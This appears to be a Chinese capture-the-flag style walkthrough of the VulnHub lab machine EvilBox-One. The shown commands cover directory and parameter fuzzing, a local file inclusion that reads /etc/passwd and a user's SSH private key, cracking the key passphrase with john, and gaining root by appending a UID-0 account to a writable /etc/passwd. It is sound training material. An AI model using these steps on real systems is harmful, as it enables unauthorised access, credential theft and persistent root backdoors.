

『vulnhub系列』EVILBOX-ONE
『vulnhub系列』EVILBOX-ONE
下载地址：
1 | https://www.vulnhub.com/entry/evilbox-one,736/ |
信息搜集：
使用nmap探测内网存活主机，发现开启了22 和 80端口
1 | nmap 192.168.0.* |

访问80端口web服务，发现apache默认页面

使用dirsearch进行目录爆破
1 | dirsearch -u "http://192.168.0.131" |

访问/robots.txt发现一句话，H4x0r 可能是用户名或密码
1 | Hello H4x0r |
访问/secret/ 发现是空白，我们来扫描这个目录，发现没有结果

我们可以尝试换个工具和字典
1 | gobuster dir -u "http://192.168.0.131/secret/" -w /usr/share/wordlists/dirb/big.txt -x .php |
- -u 目标url
- -w wordlist字典
- -x 文件后缀

不知道为什么使用dirb用同样的字典和指定php爆破不出来
1 | dirsearch -e php -w /usr/share/wordlists/dirb/big.txt -u "http://192.168.0.131/secret/" |

最后发现evli.php，但是发现页面还是空的

接下来使用工具ffuf进行爆破参数，最后得到参数为command
1 | ffuf -u 'http://192.168.0.131/secret/evil.php?FUZZ=../../../../etc/passwd' -w "/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt" -fs 0 |
- -fs 0 过滤大小为0
- FUZZ为字典爆破字段
- ../../../../etc/passwd因为不确定是命令执行还是任意文件读取，可以用随意命令爆破，和足够多的../../../。。。。/etc/passwd来确定

漏洞利用：
因为刚刚那个，可能是密码，所以我们正好读取/etc/passwd

查看页面源代码，可以换行，发现用户名为mowree

使用mowree来登录H4x0r 为密码，发现登录失败，看来没这么简单，继续使用任意文件读取
众所周知，我们除了使用密码登录ssh以外，还可以使用证书，而证书的私钥一般储存的位置
为/home/xxx/.ssh/id_rsa中xxx 为用户名，我们使用任意文件读取发现确实存在
1 | command=../../../../home/mowree/.ssh/id_rsa |

拷贝下来，使用ssh2john工具将id_rsa转化为john可以是识别的hash
1 | ssh2john id_rsa > hash #将hash值输出到hash文件中 |
再使用john来破解密码，得到密码unicorn
1 | john hash --wordlist=rockyou.txt #使用wordlist（字典）破解，这里的字典是 |

此时使用私钥登录，结果发现有警告，并且需要输入mowree的密码
1 | ssh -i id_rsa mowree@192.168.0.131 |

原因是，id_rsa的默认权限为700，所以会出现告警。因此我们将id_rsa的权限修改为700
1 | chmod 700 id_rsa |
此时登录，输入unicorn 即可登陆成功

提升权限：（passwd提权）
查看所有既有SUID权限的文件，没有发现异常
1 | find / -perm -u=s -type f 2>/dev/null |

使用命令查看用户可以以root权限运行的命令,发现没有这个命令
1 | sudo -l |

最后发现此用户对/etc/passwd具有写权限，那么这里就可以使用passwd提权

拿root在passwd中的条目依次来看
1 | root:x:0:0:root:/root:/bin/bash |
- root：用户名
- x：有密码，本来是放加密后的密码的，但后来都放入shadow中了，但也依旧支持此处是加密后的密码
- 0：用户UID为0
- 0：用户组GID为0
- root：用户备注信息
- /root：用户home目录
- /bin/bash：用户默认的bash
因此，现在我们在对passwd有写权限后，我们完全构造一个类似的root用户，我们个给passwd追加一个用户,那么现在首要就是生成一个加密后的密码（加盐值），这里使用pyhton来生成
1 | python3 -c 'import crypt;print(crypt.crypt("123456","addsalt"))' |
现在我们来构造一个用户
1 | test:adrla7IBSfTZQ:0:0:root:/root:/bin/bash |
然后追加到passwd中：
1 | echo "test:adrla7IBSfTZQ:0:0:root:/root:/bin/bash" >> /etc/passwd |
查看一下发现添加成功

我们此时切换为test用户看一下，获得root权限

成果：
登录mowree用户后在目录下发现user.txt
1 | 56Rbp0soobpzWSVzKh9YOvzGLgtPZQ |
获得root权限后，在其目录下发现root.txt
1 | 36QtXfdJWvdC0VavlPIApUbDlqTsBM |